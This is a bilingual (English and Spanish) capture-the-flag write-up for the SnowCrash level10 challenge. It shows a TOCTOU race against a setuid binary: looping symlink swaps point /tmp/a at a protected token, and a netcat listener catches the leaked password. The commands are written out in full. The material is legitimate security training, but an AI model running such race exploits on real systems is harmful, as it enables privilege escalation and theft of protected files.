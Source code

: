 ### LEVEL10 (BONUS)


- Two files with these permissions:    
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Execute ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- I create a file in tmp and execute on it.
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- It seems that `./level10` sends the content of a file to an IP.

- We download the level10 file locally.
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 
    ```

- We decompile with Ghidra.

- In the main function, we find:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- The port it expects the connection on is `6969`.

- We use `tmux` on the snow-crash machine.

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```
- Then...


- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```
- Alright, we know what it does.

- Let's go back to Ghidra.

- We see:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
    [...]
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- It only sends the file if we have permissions on the file.

- But there's a possible attack vector, TOCTOU (Time-of-check to time-to-use).

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- We have the password :)

---

### LEVEL10 (BONUS)

- Dos archivos con estos permisos:
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Ejecuto ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- Creo un archivo en tmp y ejecuto sobre este
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- Parece que `./level10` envía el contenido de una archivo a una ip

- Descargamos en local el archivo level10
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 

    ```

- Descompilamos con Ghidra

- En el main encontramos:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- El puerto que espera la conexion es el `6969`

- Usamos `tmux` en la maquina snow-crash

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```

- Luego...

- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```

- Bien, sabemos lo que hace

- Volvemos a Ghidra

- Vemos:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
    [...]
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- Solo envía el archivo si tenemos permisos en el archivo archivo

- Pera hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- tenemos la pass :)

